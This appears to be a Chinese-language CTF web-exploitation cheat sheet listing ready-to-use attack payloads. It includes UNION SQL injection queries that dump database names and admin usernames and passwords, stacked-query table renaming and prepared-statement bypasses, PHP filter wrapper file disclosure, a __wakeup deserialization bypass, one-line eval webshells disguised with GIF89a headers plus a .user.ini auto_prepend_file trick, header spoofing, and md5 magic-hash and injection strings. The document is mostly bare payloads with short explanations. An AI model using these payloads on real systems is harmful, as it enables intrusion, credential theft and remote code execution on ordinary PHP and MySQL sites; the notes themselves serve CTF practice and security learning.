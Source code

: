 * web题目，flag文件一般认为在根目录，web服务文件在／var/www/html/目录。上传payload后看不到flag时，看下源码，说不定就有了。

* 在windows系统下，反单引号（`）是数据库、表、索引、列和别名用的引用符.

* 常规注入

  ```shell
  #爆出所有库名
  ?id=0 union select 1,group_concat(distinct table_schema) from information_schema.columns
  #爆出数据库news的所有表名
  ?id=0 union select 1,group_concat(distinct table_name) from information_schema.columns where table_schema = 'news'
  #爆出表admin的所有列
  ?id=0 union select 1,group_concat(distinct column_name) from information_schema.columns where table_name = 'admin'
  #查username和password，中间用:隔开
  ?id=0 union select 1,group_concat(username,0x3a,password) from admin
  ```

* 数字注入

  hack world 1

* sql注入 尝试show tables；or；预处理语句；1' or 1=1;# 好用的语句。

  union 的用法值得研究一下，以及其他常用的注入手法。

  ```sql
  0';rename table words to words1;rename table `1919810931114514` to words;alter table words change flag id varchar(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;desc  words;#

  char(115,101,108,101,99,116)<----->'select'

  1';PREPARE hacker from concat('s','elect', ' * from `1919810931114514` ');EXECUTE hacker;#

  ```

* web PHP filter 显示后台文件

  ```php
  YOUR_URL?file=php://filter/convert.base64-encode/resource=flag.php

  ?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=
  ```

* PHP

  ```php
  __wakeup()方法绕过
  作用：
  与__sleep()函数相反，__sleep()函数，是在序序列化时被自动调用。__wakeup()函数，在反序列化时，被自动调用。
  绕过：
  当反序列化字符串，表示属性个数的值大于真实属性个数时，会跳过 __wakeup 函数的执行。
  所以在上面name后面的2表示有2个属性，我们改成3之后他会绕过__wakeup()
    
  <?php
  class Name
  {
      private $username = 'admin';
      private $password = '100';
  }
  $a = new Name();
  echo serialize($a);
  #进行url编码，防止%00对应的不可打印字符在复制时丢失
  echo urlencode(serialize($a));
  #未编码的情况
  //O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";s:3:"100";}
  //Name后面的2在链接中要改成3
  ?>
  ```

* php 序列化 反序列化

  ```php
  #在本地执行出序列化结果，然后构造payload
  $password=new Flag();
  $password = serialize($password);
  echo $password; 
  ```

* search by python 

  开源项目 dirsearch

* url

  ```
  +    URL 中+号表示空格                                 %2B  
  空格 URL中的空格可以用+号或者编码           %20
  /   分隔目录和子目录                                     %2F    
  ?    分隔实际的URL和参数                             %3F    
  %    指定特殊字符                                          %25    
  #    表示书签                                                  %23    
  &    URL 中指定的参数间的分隔符                  %26    
  =    URL 中指定参数的值                                %3D

  $IFS$1可以代替空格
  ```

* 伪造headers

  ```shell
  Referer 伪造来自哪里
  X-Forwarded-For 伪造IP
  User-Agent 伪造浏览器
  ```

* webshell

  ```php
  <?php @eval($_POST[cmd]);?>
  GIF89a #伪装图片
  <script language='php'>eval($_POST['shell']);</script>

    .user.ini
  GIF89a                  
  auto_prepend_file=a.jpg
  .user.ini实际上就是一个可以由用户“自定义”的php.ini，我们可以自定义除了PHP_INI_SYSTEM以外的模式，在执行php代码之前，系统会对.user.ini先做一个执行，然后才执行其他的php文件。

  我们这边利用.user,ini先执行auto_prepend_file函数，auto_prepend_file表示在php程序加载第一个php代码前加载的php文件，也就是先加载了a.jpg里面的文件，即一句话木马。
  ```

* md5 注入

  ```
  ffifdyop 这个字符串被 md5 哈希了之后会变成 276f722736c95d99e921722cf9ed621c，这个字符串前几位刚好是 ' or '6
  ```

* md5 collision

  ```
  s878926199a
  0e545993274517709034328855841020
  s155964671a
  0e342768416822451524974117254469
  s214587387a
  0e848240448830537924465865611904

  %4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
  %4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2

  0e1138100474 == md5(md5(0e1138100474)) == 0e779212254407018184727546255414
  0e215962017 == md5(0e215962017) == 0e291242476940776845150308577824
  ```

  ​

* robots.txt 

* 反序列化漏洞

* load_file()函数

  ```
  /view.php?no=0 union/**/select 1,load_file('/var/www/html/flag.php'),3,4
  ```

* ​

  ​